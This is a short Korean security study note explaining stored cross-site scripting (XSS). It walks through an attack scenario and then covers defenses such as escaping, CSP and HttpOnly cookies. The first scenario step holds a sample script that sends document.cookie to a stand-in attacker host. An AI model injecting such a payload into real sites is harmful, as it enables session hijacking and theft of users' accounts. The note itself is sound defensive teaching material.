

# XSS
XSS (Cross-Site Scripting, 크로스 사이트 스크립팅)는 웹 페이지에 악성 코드를 넣어서 사용자 정보를 빼앗는 공격이다.

### 공격 시나리오



1. 공격자가 XSS 취약한 웹사이트에 악성 스크립트 포함된 게시글/댓글을 작성
```html
<script>
    fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

2. 다른 사용자가 게시글/댓글을 보기 위해 웹사이트를 방문
3. 웹사이트가 악성 스크립트가 포함된 페이지를 응답
	-  웹사이트는 게시글/댓글을 로드할 때 **악성 스크립트까지 함께 반환**함.
	- 웹사이트가 제대로 필터링하지 않았기 때문에, 악성 코드가 그대로 포함됨.
4. 피해자의 브라우저에서 악성 스크립트 실행
5. 악성 스크립트가 피해자의 쿠키/세션 정보를 공격자 서버로 전송
6. 공격자가 피해자의 쿠키를 이용해 세션 하이재킹(사용자로 가장하여 로그인 상태 유지)
	- 공격자는 피해자의 **쿠키를 이용해 세션을 탈취하고, 로그인된 계정으로 악의적인 행동 수행 가능.**
	- 예: 피해자의 계정으로 **결제 진행, 이메일 탈취, 계정 설정 변경 등**

### 방어 방법

- **입력 값 검증 (Input Validation)**:  - 사용자 입력값에서 스크립트 태그(`<script>`) 필터링 및 이스케이프 처리
    - `<`, `>` , `"` -> HTML 엔티티(`&lt;`, `&gt;`, `&quot;`)
    - `<script>` → `&lt;script&gt;`
- **출력 시 HTML 이스케이프 (Output Encoding)**: 서버에서 데이터를 출력할 때, HTML 태그를 문자열로 변환하여 실행되지 않도록 설정
- **콘텐츠 보안 정책(CSP)**: CSP 헤더를 사용해 특정 도메인에서 로드된 스크립트만 실행하도록 제한
	- `Content-Security-Policy: default-src 'self' `
- **HttpOnly 쿠키 사용**: `HttpOnly` 속성을 사용하여 JavaScript에서 쿠키 접근을 막음
	- `Set-Cookie: session=abcd1234; HttpOnly; Secure`
